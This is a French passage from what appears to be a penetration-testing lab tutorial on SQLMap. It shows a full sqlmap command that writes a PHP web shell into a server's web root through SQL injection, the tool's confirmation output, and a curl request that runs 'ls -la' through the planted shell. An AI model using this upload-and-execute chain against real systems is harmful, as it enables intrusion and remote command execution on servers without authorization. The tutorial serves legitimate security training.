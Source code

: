 Essayons maintenant d'écrire ce fichier sur le serveur distant, dans le `/var/www/html/`répertoire, la racine Web du serveur par défaut pour Apache. Si nous ne connaissons pas la racine Web du serveur, nous verrons comment SQLMap peut la trouver automatiquement.

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:54:18 /2020-11-19/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
[17:54:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

[*] ending @ 17:54:28 /2020-11-19/

```

On voit que SQLMap a confirmé que le fichier a bien été écrit :

```
[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

```

Maintenant, nous pouvons tenter d'accéder au shell PHP distant et exécuter un exemple de commande :

```
dsgsec@htb[/htb]$ curl http://www.example.com/shell.php?cmd=ls+-la

total 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...

```

Nous voyons que notre shell PHP a bien été écrit sur le serveur distant, et que nous avons effectivement une exécution de commandes sur le serveur hôte.
